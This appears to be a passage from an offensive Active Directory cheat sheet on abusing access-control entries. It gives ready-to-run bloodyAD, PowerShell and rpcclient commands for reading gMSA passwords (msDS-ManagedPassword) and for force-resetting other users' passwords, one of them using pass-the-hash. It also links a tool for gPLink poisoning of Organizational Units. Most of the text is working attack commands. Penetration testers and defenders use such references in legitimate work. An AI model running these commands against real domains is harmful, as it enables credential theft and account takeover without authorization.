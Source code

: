## ReadGMSAPassword

An attacker can read the GMSA password of the account this ACE applies to.
* Windows/Linux:
	```ps1
	bloodyAD -u john.doe -d bloody -p Password512 --host 192.168.10.2 get object 'gmsaAccount$' --attr msDS-ManagedPassword
	```
* Windows only:
	```ps1
	# Save the blob to a variable
	$gmsa = Get-ADServiceAccount -Identity 'SQL_HQ_Primary' -Properties 'msDS-ManagedPassword'
	$mp = $gmsa.'msDS-ManagedPassword'

	# Decode the data structure using the DSInternals module
	ConvertFrom-ADManagedPasswordBlob $mp
	```

## ForceChangePassword

An attacker can change the password of the user this ACE applies to:
* Windows/Linux:
	```ps1
	# Using bloodyAD with pass-the-hash
	bloodyAD --host [DC IP] -d DOMAIN -u attacker_user -p :B4B9B02E6F09A9BD760F388B67351E2B set password target_user target_newpwd
	```
* Windows:
	```powershell
	$NewPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
	Set-DomainUserPassword -Identity 'TargetUser' -AccountPassword $NewPassword
	```
* Linux:
	```ps1
	# Using rpcclient from the  Samba software suite
	rpcclient -U 'attacker_user%my_password' -W DOMAIN -c "setuserinfo2 target_user 23 target_newpwd" 
	```

## Organizational Units ACL

Access rights granted on Organizational Units can be exploited to compromise all the objects that are contained in it.

* [synacktiv/OUned](https://github.com/synacktiv/OUned) - The OUned project automating Active Directory Organizational Units ACL exploitation through gPLink poisoning
